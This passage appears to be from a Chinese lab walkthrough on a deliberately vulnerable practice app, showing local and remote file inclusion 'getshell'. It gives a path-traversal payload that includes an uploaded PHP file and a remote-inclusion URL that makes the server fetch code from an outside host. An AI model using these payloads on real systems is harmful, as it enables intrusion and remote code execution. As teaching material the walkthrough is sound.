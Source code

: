1. **本地文件包含 Getshell**

新建一个 info.txt 内容如下：





php

```php
<?php phpinfo();?>
```

这里借助文件上传模块来上传 txt:



![img](https://image.3001.net/images/20200527/15905397516912.png)



然后尝试直接包含这个 txt 文件:





payload

```payload
/fi/?page=../../hackable/uploads/info.txt
```



![img](https://image.3001.net/images/20200527/15905398205987.png)



1. **远程文件包含 Getshell**

一般来说可以包含远程文件了，我们常用来进行远程文件包含来 getshell，和上面一样 我们将 info.txt 上传到外网的服务器上，国光临时上传到我的网站根目录下：





payload

```payload
https://www.sqlsec.com/info.txt
```

然后尝试直接进行远程文件包含：





payload

```payload
/fi/?page=https://www.sqlsec.com/info.txt
```



![img](https://image.3001.net/images/20200527/15905400568577.png)

